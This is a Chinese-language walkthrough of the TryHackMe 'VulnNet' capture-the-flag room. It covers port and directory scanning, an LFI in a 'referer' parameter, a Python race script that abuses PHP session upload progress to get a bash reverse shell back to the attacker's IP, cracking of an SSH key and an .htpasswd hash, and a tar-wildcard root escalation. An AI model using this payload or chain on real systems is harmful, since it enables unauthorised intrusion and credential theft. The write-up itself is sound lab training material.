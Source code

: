 # VulnNet Writeup 
> URL : https://tryhackme.com/room/vulnnet1
IP : 10.10.86.144

- 題目敘述
	- `You will have to add a machine IP with domain vulnnet.thm to your /etc/hosts`

## Recon
- 掃 Port
	- `rustscan -a 10.10.86.144 -r 1-65535`
		- ![](https://i.imgur.com/vIQriUD.png)
	- `nmap -A -p22,80 10.10.86.144`
		- ![](https://i.imgur.com/8iyHObG.png)
- 掃目錄
	- `python3 dirsearch.py -u http://10.10.86.144/`
		- ![](https://i.imgur.com/qURY7kW.png)
		- ![](https://i.imgur.com/vphYlEc.png)
- 發現登入頁面
	- ![](https://i.imgur.com/lOR56fr.png)
	- 戳了常見的 SQLi 都不行
- 觀察網頁連結
	- ![](https://i.imgur.com/UtPIr0V.png)
		- 透過 js formatter 轉漂亮
	- ![](https://i.imgur.com/rjfcVqd.png)
		- `broadcast.vulnnet.thm`
		- 加到 `/etc/hosts`
- 前面的階段也可以用 `LinkFinder`
	- `python3 linkfinder.py -i http://vulnnet.thm/`
		- ![](https://i.imgur.com/oWZvBQs.png)
	- `python3 linkfinder.py -i http://vulnnet.thm/js/index__d8338055.js`
		- ![](https://i.imgur.com/JlJlqLz.png)
		- ![](https://i.imgur.com/nJFz81A.png)
			- 發現首頁可以帶一個 `?referer` 參數
- 訪問 `broadcast.vulnnet.thm`
	- ![](https://i.imgur.com/VHfgLFt.png)
	- 發現需要登入

- 觀察首頁 `referer` 參數
	- 發現可以 LFI
		- ![](https://i.imgur.com/WKOWvWA.png)
	- 用 Session upload progress 大法
```python
import grequests
sess_name = 'meowmeow'
sess_path = f'/var/lib/php/sessions/sess_{sess_name}'
base_url = 'http://vulnnet.thm/index.php'
param = "referer"

#code = "file_put_contents('/tmp/shell.php','<?php system($_GET[a])');"
code = '''system("bash -c 'bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'");'''

while True:
    req = [grequests.post(base_url,
                            files={'f': "A"*0xffff},
                            data={'PHP_SESSION_UPLOAD_PROGRESS': f"pwned:<?php {code} ?>"},
                            cookies={'PHPSESSID': sess_name}),
            grequests.get(f"{base_url}?{param}={sess_path}")]

    result = grequests.map(req)
    if "pwned" in result[1].text:
        print(result[1].text)
        break
                   
```
- 然後就 RCE 了
	- ![](https://i.imgur.com/Nw726OE.png)
	- (感覺就不是正規解...ㄏㄏ
## 提權
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- 掃豌豆
	- ![](https://i.imgur.com/XZOpfXC.png)
	- 找到 backup
		- ![](https://i.imgur.com/KBMz0OO.png)
- 觀察 backup 檔案，發現有 ssh-backup
	- ![](https://i.imgur.com/so7QneR.png)
	- 偷出來
- 解壓縮
	- ![](https://i.imgur.com/jsXBiUr.png)
	- 發現是 `id_rsa`
		- ![](https://i.imgur.com/0P706uh.png)
- 到家目錄看使用者名稱
	- ![](https://i.imgur.com/v2l4V0H.png)
	- `server-management`
		- 發現是 `server-management`
- 準備 ssh 登入
	- ![](https://i.imgur.com/qRY1yQi.png)
	- 發現 `id_rsa` 需要密碼 QQ
- 用約翰爆破
	- `python3 ../../ssh2john.py id_rsa > id_rsa_john`
	- ![](https://i.imgur.com/Wd6L7hB.png)
	- 密碼是 `oneTWO3gOyac`
- SSH 登入
	- ![](https://i.imgur.com/78Hekqp.png)
	- 取得 user flag
- 跑豌豆掃到 `.htpasswd` 密碼的 hash
	- 猜測應該是給 `broadcast.vulnnet.thm` 用的
	- ![](https://i.imgur.com/cGflEXG.png)
	- 用約翰爆破個
		- ![](https://i.imgur.com/g5fTfFi.png)
		- 密碼是 ``9972761drmfsls`
	- 猜測原始思路正規解法應該是 LFI 到這個檔案
- 訪問 broadcast.vulnnet.thm
	- 使用帳號 `developers`
		- ![](https://i.imgur.com/jR4k1zC.png)
	- 密碼 `9972761drmfsls`
	- ![](https://i.imgur.com/Hp0c1Il.png)
		- 推測這應該是某個有 RCE 洞的 CMS
		- 正規解是從這邊進 RCE ㄅ
		- 隨便
## 二次提權
- 想起前面的 Backup 用了 `tar *`
	- 所以可以快速提權
	- ![](https://i.imgur.com/gE5YL0d.png)
- 接 Shell
	- ![](https://i.imgur.com/hXx86b5.png)
- 取 Root Flag
	- ![](https://i.imgur.com/XSutGiW.png)
